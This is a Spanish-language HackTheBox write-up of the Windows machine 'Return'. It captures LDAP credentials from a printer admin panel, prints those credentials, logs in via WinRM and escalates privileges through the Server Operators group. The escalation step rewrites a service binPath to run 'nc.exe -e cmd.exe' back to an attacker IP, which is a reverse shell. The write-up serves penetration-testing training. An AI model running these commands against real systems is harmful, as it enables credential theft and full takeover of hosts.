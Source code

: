 ```yaml
---
title: Return - Hackthebox
date: 2024-03-06
categories: [Write up, Windows, Hackthebox]
tags: [ldap, smb, printer, server operator, active directory]     # TAG names should always be lowercase
---
```


Return es una máquina Windows que cuenta con un panel de administración de impresora de red que almacena las credenciales LDAP. Estas credenciales se pueden capturar ingresando un servidor LDAP malicioso que permite establecerse en el servidor a través del servicio WinRM. Se descubrió que el usuario formaba parte de un grupo de privilegios que se aprovechó aún más para obtener acceso al sistema.

![20240307072613.png](20240307072613.png)
 
# Enumeración


Iniciaremos por enumerar los puertos abiertos, asi como  los servicios y versiones que se ejecutan en los puertos abiertos, esto lo realizaremos con la herramienta de `nmap`

```php

53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-02-23 21:31:54Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
59956/tcp open  msrpc         syn-ack Microsoft Windows RPC

```

## Puerto : 80

El el sitio web encontraremos lo que parece un servicio de impresora 

![20230224222339.png](20230224222339.png)

Teniendo encuentra que nosotros podemos tener manejo de a que servidor queremos que se conecte, haremos lo siguiente : 
- Nos pondremos a la escucha con `ncat` y luego en el sitio web cargaremos la información el sitio web 

![20230224230517.png](20230224230517.png)

Luego cargamos el sitio web y deberíamos obtener unas credenciales

![20230224230702.png](20230224230702.png)

Las credenciales que encontramos son : `svc-printer : 1edFg43012!!` las que usaremos para autenticarnos contra el servicio `winrm`

# Explotación

Antes de usar las credenciales y conectarnos a la maquina comprobaremos que las credenciales son validas.

```python
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![20230225004533.png](20230225004533.png)

En caso de que no tengamos un `Pwn3d!` al final entonces indicara que no tenemos o no podemos conectarnos. 
# Escalada de privilegios

Haciendo uso de `evil-winrm` y las credenciales podremos conectarnos a la maquina victima.

```python
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![20230225005218.png](20230225005218.png)

## User svc-printer

Enumerando con `net user svc-printer` encontraremos que el usuario actual pertenece al grupo de `Server Operators` 

![20230225012227.png](20230225012227.png)

Básicamente en este grupo podemos configurar un servicio que se encuentra corriendo, que es el servicio `VMTools`. Primero configuraremos y asignaremos una ruta que es nuestro binario malicioso para tener una shell como el usuario `administrator`.

En nuestro caso usaremos `nc.exe` para lo cual subiremos el binario.

```php
upload /usr/share/windows-binaries/nc.exe
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.8 1234"
```

Luego le indicaremos la ruta y el servicio a donde queremos que se asocie, para luego ponernos a la escucha con `nc -lvp 1234`

Ahora pararemos el servicio y después lo iniciaremos de nuevo

```python
sc.exe stop VMTools
sc.exe start VMTools
```

## Usuario : Administrator

Si se hizo todo bien deberíamos de tener una shell como la siguiente:

![20230225013336.png](20230225013336.png)

### Segundo método

- [https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/)

# Recursos:
- [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
